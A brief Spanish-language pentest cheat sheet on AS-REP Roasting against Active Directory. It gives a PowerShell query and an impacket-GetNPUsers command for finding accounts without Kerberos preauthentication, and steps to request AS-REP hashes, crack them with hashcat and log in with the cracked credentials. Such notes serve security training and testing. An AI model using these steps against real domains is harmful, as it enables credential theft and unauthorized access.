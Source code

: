 ✅AS-REP Roasting

🎯 Requerimientos:

    1. Usuarios con Do not require Kerberos preauthentication habilitado.

    2. Acceso para enumerar usuarios (net user /domain).

    3. Herramientas: Rubeus, impacket-GetNPUsers.

🔍 Cómo reconocer:

* Buscar flag **DONT_REQ_PREAUTH**:

    Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}

o:

    impacket-GetNPUsers domain/ -usersfile users.txt -dc-ip <DC_IP> -no-pass

⚡ Exploitar:

1.    Pedir AS-REP para usuarios vulnerables.

  2.  Crackear hash offline (hashcat -m 18200).

    3. Autenticarse con credenciales crackeadas.
